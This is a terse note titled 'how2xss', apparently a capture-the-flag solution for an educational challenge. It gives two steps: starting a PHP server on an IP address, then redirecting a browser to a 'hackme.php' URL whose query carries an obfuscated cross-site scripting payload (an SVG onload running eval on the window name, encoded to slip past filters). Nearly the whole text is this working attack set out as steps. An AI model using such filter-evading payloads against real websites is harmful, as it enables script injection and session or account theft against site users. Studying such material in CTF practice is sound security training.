 # how2xss
1. php -S 140.113.68.171:8000 -t .
2. window.location="https://edu-ctf.kaibro.tw:30678/hackme.php?q=<SVG/ONLoAD=eval(n&#97;m\\u{65})>"; 
